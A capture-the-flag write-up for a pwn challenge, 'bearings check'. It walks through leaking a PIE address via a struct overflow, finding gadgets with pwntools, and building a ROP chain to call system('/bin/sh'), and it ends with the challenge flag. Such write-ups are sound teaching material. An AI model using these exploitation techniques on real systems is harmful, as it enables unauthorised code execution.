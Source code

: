 # solution for bearings check
## category: pwn
firstly, i check the protections of the file. 
```bash
pwndbg> checksec
File:     /home/syntax/Downloads/bearings check/bearings_check/chal
Arch:     amd64
RELRO:      Full RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        PIE enabled
Stripped:   No
```
so that means i'll have to leak the addresses if i want my solvescript to work on remote.

looking at the source code, i realise that the struct
```c
struct proving_ground {
    char name[32];
    void* main_ref;
    char pad[8];
    char vuln[32];
};
```

is arranged in a way such that main ref comes right after name. which means in theory that if i overflow the 32 byte buffer in name, i should theoretically be able to leak main_ref. and lo and behold, when i send in 32 bytes or more, some garbled characters pop up, which i know should be my leaked address. i'll then use `context.log_level = 'debug'` in order to get my address.

so that's the main_ref settled, and now i can get all of the other addresses by using main_ref. the addresses that i'll need are the pie base, the `gifts()` function addess, system@plt address, the pop rdi; ret gadget, and just in case, a ret gadget address. so how do i leak these? 

to calculate the pie base, i just use `main_ref - elf.symbols['main']` in order to get it. it should end in 000 or else it's wrong. everything else should be smooth sailing from here. 

the elf file in this case is the local binary. 

i use `pie_base + elf.symbols['gifts']` to calculate my `gifts()` address, `pie_base + elf.plt['system']` to get my system address, `elf.search(b"/bin/sh\x00")` to find my bin/sh offset before using `pie_base + next(binsh_offset)` to get the address of bin/sh. 

the pop rdi gadget is a little more complicated to find, i used
```python
rop = ROP(elf)
pop_rdi_ret = rop.find_gadget(['pop rdi', 'ret'])[0]
pop_rdi_ret_addr = pie_base + pop_rdi_ret
```
to get it, and i used
```python
ret_gadget = rop.find_gadget(['ret'])[0]
ret_addr = pie_base + ret_gadget
```
to get the ret gadget address. 

okay great, once i've gotten all of my addresses, i can craft my payload.
```python
payload = b'A' * 32
payload += p64(ret_addr)
payload += p64(ret_addr)
payload += p64(pop_rdi_ret_addr)      # gadget address to control rdi
payload += p64(binsh_addr)       # address of "/bin/sh" string
payload += p64(system_plt)   # address of system@plt
```
the payload is arranged in the order such that it fills the buffer first, then alignts the stack using the ret gadgets, before controlling the rdi register using the pop rdi gadget, then sending in the bin/sh string which will be placed into the rdi register by the gadget, then the address of system@plt which will execute `system("bin/sh")`.

and boom after sending all that, you will get your flag, which is `sctf{N0W_1_C4N_T3LL_T0P_FR0M_B0TT0M}`!